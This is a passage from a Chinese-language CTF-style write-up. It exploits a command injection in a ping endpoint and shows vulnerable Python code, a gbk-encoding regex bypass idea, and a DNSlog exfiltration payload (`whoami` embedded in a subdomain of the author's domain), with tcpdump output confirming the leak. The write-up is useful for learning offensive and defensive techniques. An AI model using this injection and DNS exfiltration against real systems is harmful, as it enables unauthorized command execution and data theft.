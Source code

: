 ```python
   if not re.match('^[a-zA-Z0-9\-\./]+$', data):
       return HttpResponse("Invalid URL")
   return HttpResponse(os.popen("ping -c 1 \"%s\"" % data).read())
▶ Local vars
/opt/api/dnsapi/utils.py in escape
   r = ''
   for i in range(len(data)):
       c = data[i]
       if c in ('\\', '\'', '"', '$', '`'):
           r = r + '\\' + c
       else:
           r = r + c
   return r.encode('gbk')
...
```

这里用了dns的api。顿时就想到毕设的一个操作（控制指定一个域名的解析服务器实现DNS隧道）。

本地测试：

```
ping -c 1 "`whoami`.xiaoxi.pegasusx.top"
```

命令会转化为

```
ping -c 1 "xiaoxi.xiaoxi.pegasusx.top"
```

而我们在域名解析上配置，所有xxx.xiaoxi.pegasusx.top都到我们指定的一个服务器进行解析。具体配置参考这篇[博文](http://momomoxiaoxi.com/2016/11/30/DNStunnel/)

> PS:后期发现这是一个比较通用的思路，就是DNSlog来获取数据。在SQL注入和命令执行时，尤其是没有回显时有神奇的作用。

可以在我们的服务器上看到如下数据：

```bash
➜  ~ tcpdump udp port 53 -X |grep xiaoxi.pegasusx.top
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on venet0, link-type LINUX_SLL (Linux cooked), capture size 65535 bytes
03:40:43.847328 IP duhem.df.lth.se.45156 > ilovefyy.top.domain: 41249+ NULL? vaaaaaaaaaaaaa.xiaoxi.pegasusx.top. (52)
03:41:17.167469 IP 60.215.138.244.50302 > ilovefyy.top.domain: 33379% [1au] A? moxiaoxi.xiaoxi.pegasusx.top. (57)
03:41:17.967575 IP 60.215.138.244.44039 > ilovefyy.top.domain: 24630% [1au] A? moxiaoxi.xiaoxi.pegasusx.top. (57)
```

可以看到whoami的结果被发送过来了。这是因为ping一个域名时，系统会自动解析那个域名，从而将那个域名信息转发到我们的服务器上。而我们可以把想要的信息放在域名的前缀上发送到我们的DNS解析服务器。

接下来的思路就是通过gbk绕过正则，插入一个`.

```python
 data = escape(data)
...
   if not re.match('^[a-zA-Z0-9\-\./]+$', data):
       return HttpResponse("Invalid URL")
   return HttpResponse(os.popen("ping -c 1 \"%s\"" % data).read())
   
```
